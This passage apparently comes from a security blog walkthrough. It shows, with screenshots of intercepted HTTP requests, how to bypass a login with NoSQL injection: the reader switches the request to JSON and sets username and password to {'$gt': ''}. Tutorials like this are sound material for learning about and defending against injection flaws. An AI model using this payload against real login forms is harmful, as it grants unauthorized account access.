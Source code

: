 <img class="alignnone wp-image-451" src="/images/2016/01/sg32.png" alt="sg32" width="585" height="339" srcset="/images/2016/01/sg32.png 744w, /images/2016/01/sg32-300x174.png 300w, /images/2016/01/sg32-660x382.png 660w" sizes="(max-width: 585px) 100vw, 585px" />

Modify the following parameters in the intercepted packet:

  1. Content-Type => application/json
  2. Post variables => {
  
    "username": {"$gt": ""},
  
    "password": {"$gt": ""}

So our original HTTP login request looks like this:

<img class="alignnone wp-image-452" src="/images/2016/01/sg33.png" alt="sg33" width="654" height="195" srcset="/images/2016/01/sg33.png 791w, /images/2016/01/sg33-300x90.png 300w, /images/2016/01/sg33-768x229.png 768w, /images/2016/01/sg33-660x197.png 660w" sizes="(max-width: 654px) 100vw, 654px" />

And we modify it as such:

<img class="alignnone wp-image-454" src="/images/2016/01/sg35.png" alt="sg35" width="668" height="233" srcset="/images/2016/01/sg35.png 785w, /images/2016/01/sg35-300x105.png 300w, /images/2016/01/sg35-768x268.png 768w, /images/2016/01/sg35-660x230.png 660w" sizes="(max-width: 668px) 100vw, 668px" />
